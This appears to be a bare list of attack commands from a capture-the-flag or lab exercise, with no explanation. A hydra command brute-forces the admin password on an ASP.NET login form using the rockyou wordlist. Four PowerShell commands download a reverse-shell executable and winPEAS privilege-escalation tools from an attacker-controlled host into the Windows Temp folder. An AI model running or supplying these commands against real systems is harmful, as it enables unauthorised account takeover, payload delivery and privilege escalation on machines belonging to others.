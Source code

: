 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.98.241 http-post-form "/Account/login.aspx:__VIEWSTATE=J7%2FrKT%2FRbzXElHvOFArr4HX0BUp05PUs%2Bjl4fN5QtFnsigr6tjwFZkWaUW9RaCNkl5wcaaA9I71WXBKsdywllsO45a8kdE%2BO2GeciLswYLZgMhEIYMOLKvVE1g9%2FuxmOjygsPrfW43YX1axgD3V%2FmbHd2lx7jcwje7Qgkp065G2LekTQ&__EVENTVALIDATION=nIJxL4rdGJE3KYMzFDmVH35CAPYLfmVh68KpFWCfpmOAp8i4dLgnYkYLVP3UEDV8IiIqX6kXoIwujnQvd7xTK1Tbiqg5RF0fYL3q6nazJk37P%2BrLs8lq043TvaeMwGi4uqTkx2onf8prQt9NNxgtS4oXE0haNUx6xQId8O8kqlZfYRAG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

powershell -c "Invoke-WebRequest -Uri 'http://10.9.216.154:8000/shell1.exe' -OutFile 'c:\Windows\Temp\shell1.exe'"

powershell -c "Invoke-WebRequest -Uri 'http://10.9.216.154:8000/winPEASx64.exe' -OutFile 'c:\Windows\Temp\winPEASx64.exe'"

powershell -c "Invoke-WebRequest -Uri 'http://10.9.216.154:8000/winPEASx86.exe' -OutFile 'c:\Windows\Temp\winPEASx86.exe'"

powershell -c "Invoke-WebRequest -Uri 'http://10.9.216.154:8000/winPEAS.bat' -OutFile 'c:\Windows\Temp\winPEAS.bat'"